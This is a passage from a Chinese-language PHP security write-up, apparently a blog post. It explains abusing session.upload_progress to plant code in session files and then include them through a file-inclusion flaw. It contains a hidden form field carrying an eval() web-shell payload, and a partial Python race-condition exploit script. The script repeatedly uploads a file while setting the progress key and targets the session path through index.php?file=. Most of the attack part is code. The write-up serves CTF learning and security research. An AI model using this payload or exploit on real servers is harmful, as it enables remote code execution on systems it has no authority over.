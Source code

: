 ```php
   "done" => false,
   "start_time" => 1234567899,
   "bytes_processed" => 54554,
  ),
 )
);
```

session中存储上传进度的键值是：

```php
ini_get('session.upload_progress.prefix').$_POST[ini_get['session.upload_progress.name']]；
```

其中`$_POST[ini_get['session.upload_progress.name']]；`是一个我们可控的值，如果把它控制成一个shell的内容，然后包含session就可以getshell了。

```html
<input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="<?php eval($_GET[1]); ?>" />
```

如果`session.upload_progress.cleanup=On`开启：

Cleanup the progress information as soon as all POST data has been read (i.e. upload completed). Defaults to 1, enabled.

如果POST一被读取，session的内容就会被清空，所以为了在清空之前能包含到有我们payload的session，还需要用条件竞争。

记得当时在@wupco在SCTF2018的题目的非预期解，[https://www.cnblogs.com/iamstudy/articles/sctf2018_simple_php_web_writeup.html](https://www.cnblogs.com/iamstudy/articles/sctf2018_simple_php_web_writeup.html)

我当时以为`session.upload_progress.enabled=On`仅仅是个意外，是@l3m0n题目环境的问题，当时今天我才发现，php默认就是开启的.....参考手册：

[http://php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name](http://php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)

![http://pic.wonderkun.cc/uploads/2018/10/2.png](http://pic.wonderkun.cc/uploads/2018/10/2.png)
默认就开启的这个性质相当棒啊。。。。

最后给一个利用的exp吧：

```python
#!coding:utf-8

import requests
import time
import threading


host = 'http://your-ip:8088/'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'

def creatSession():
    while True:
        files = {
        "upload" : ("tmp.jpg", open("/etc/passwd", "rb"))
        }
        data = {"PHP_SESSION_UPLOAD_PROGRESS" : "<?php echo md5('1');?>" }
        headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
        r = requests.post(host,files = files,headers = headers,data=data)

fileName = "/var/lib/php/sessions/sess_"+PHPSESSID

if __name__ == '__main__':

    url = "{}/index.php?file={}".format(host,fileName)
    headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
    t = threading.Thread(target=creatSession,args=())
```